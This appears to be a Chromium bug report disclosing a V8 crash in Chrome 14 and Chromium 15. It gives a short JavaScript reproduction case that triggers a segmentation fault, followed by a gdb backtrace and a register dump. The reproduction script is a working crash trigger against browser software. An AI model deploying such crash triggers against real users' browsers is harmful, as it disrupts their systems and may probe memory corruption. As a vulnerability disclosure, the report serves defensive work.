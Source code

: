 <b>VULNERABILITY DETAILS</b>
The javascript code below crashes Chrome 14 stable and Chromium 15 as well as the corresponding V8 shells. The crash has a very similar signature to issue #95485 but it does not contain "finally".

<b>VERSION</b>
Chrome Version: 14.0.835.163 stable
Operating System: Ubuntu Linux 11.04

<b>REPRODUCTION CASE</b>

while (true) {
    function test(length) {
      for (var i = 0; i < length; i++) {
        var c = Math.round( false | input ^ this, __lookupGetter__);
      }
      const isFinite = this, input;   
    }
    for (var i = 1; i <= 128; i <<= 1); {
      for (var j = 0; j < 8; j++) {
        for (var k = 0; k < 3; k++) {
          test(i + j);
        }
      }
    }
}


<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>
Type of crash: tab
Crash State (gdb trace from optimized browser build):

Program received signal SIGSEGV, Segmentation fault.
0x00f963cf in ?? ()
(gdb) bt
#0  0x00f963cf in ?? ()
(gdb) x /4i $eip
=> 0xf963cf:    mov    (%eax),%eax
   0xf963d1:    and    $0xffffe000,%eax
   0xf963d6:    mov    0x14(%eax),%eax
   0xf963d9:    mov    %eax,0x1c(%esp)
(gdb) print $eax
$1 = -1
(gdb) info registers
eax            0xffffffff       -1
ecx            0x1      1
edx            0x82     130
ebx            0x3422ff4        54669300
esp            0xbfffd2a0       0xbfffd2a0
ebp            0x0      0x0
esi            0xbfffd36c       -1073753236
edi            0x3967f5dd       963114461
eip            0xf963cf 0xf963cf
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) 

